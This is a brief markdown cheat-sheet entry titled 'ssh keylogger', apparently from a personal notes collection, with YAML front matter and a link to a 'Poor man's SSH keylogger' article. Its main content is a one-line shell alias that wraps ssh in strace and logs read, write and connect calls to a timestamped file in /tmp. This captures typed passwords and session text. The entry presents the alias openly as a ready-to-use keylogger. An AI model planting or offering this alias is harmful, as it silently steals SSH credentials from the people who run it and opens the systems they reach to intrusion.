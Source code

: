```yaml
---
tags: [ssh]
title: ssh keylogger
created: '2019-07-30T06:19:49.241Z'
modified: '2019-08-02T07:37:52.092Z'
---
```


# ssh keylogger

```sh
ssh='strace -o /tmp/sshpwd-$(date '+%d%h%m%s').log -e read,write,connect -s2048 ssh'
```

[Poor man's SSH keylogger](https://diogomonica.com/2011/02/03/poor-mans-ssh-keylogger/)
